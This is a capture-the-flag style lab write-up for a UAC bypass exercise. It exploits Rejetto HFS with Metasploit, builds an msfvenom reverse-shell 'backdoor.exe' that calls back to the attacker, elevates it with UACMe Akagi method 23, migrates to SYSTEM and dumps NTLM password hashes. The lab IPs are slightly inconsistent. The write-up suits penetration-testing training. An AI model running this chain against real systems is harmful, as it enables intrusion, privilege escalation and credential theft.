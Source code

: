 # 🔬UAC Bypass

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> * Target IP: `10.4.17.63`
> * Local IP: `10.10.16.2`
> * **UAC** bypass

### Enumeration

```bash
nmap 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:55 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.58 seconds
```

* Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:57 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

The version can be checked in a browser by opening the link

* `http://10.4.17.63/`

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

* Run `metasploit` without showing banner
* Set the target IP as **GLOBAL RHOSTS variable**

```bash
msfconsole -q
msf6 > setg RHOSTS 10.0.17.63
```

```bash
msf6 > search hfs
msf6 > use exploit/windows/http/rejetto_hfs_exec
# direct exploit since the RHOSTS has been set globally (can check with show options)
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Use `meterpreter` commands to gain more information about the target

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Get `admin` user privileges

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> Privileges are very few which indicates that this user is not privileged at this point&#x20;

<figure><img src="../../../../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> Do not have permission to elevate privileges

* Verify if `admin` user is part of the local administrators group

```bash
meterpreter > shell
C:\Windows\system32>net user
C:\Windows\system32>net localgroup administrators
```

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> The admin user is a member of the Administrators group. However, it do not have the high privilege as of now.&#x20;



<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In order to run programs or tasks with elevated privileges, `UAC` bypass is necessary

### UAC Bypass & Privesc <a href="#uac-bypass-and-privesc" id="uac-bypass-and-privesc"></a>

* [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
root@attackdefense:~# ls /root/Desktop/tools/UACME/
Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Generate a `meterpreter` payload with `msfvenom`

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f exe > backdoor.exe
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Set up a new `msfconsole` session and set up a listener with `multi/handler`, to receive the connection one the payload is executed on the target

* set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
* set the `LHOST` IP and `LPORT` of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

* The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
* Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* UAC would prevent running `backdoor.exe`
* Run `Akagi64.exe` executable with UACMe method 23

<figure><img src="../../../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

* Elevated `meterpreter` session should be received on the listener

<figure><img src="../../../../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > getuid
meterpreter > getprivs
```

The privileges amount has increased.

<figure><img src="../../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate to a `NT AUTHORITY\SYSTEM` service.

```bash
meterpreter > ps
```

<figure><img src="../../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > ps
meterpreter > migrate 508 
```

<figure><img src="../../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

<figure><img src="../../../../../.gitbook/assets/image (21) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

{% hint style="success" %}
Flag: `4d6583ed4cef81c2f2ac3c88fc5f3da6`
{% endhint %}


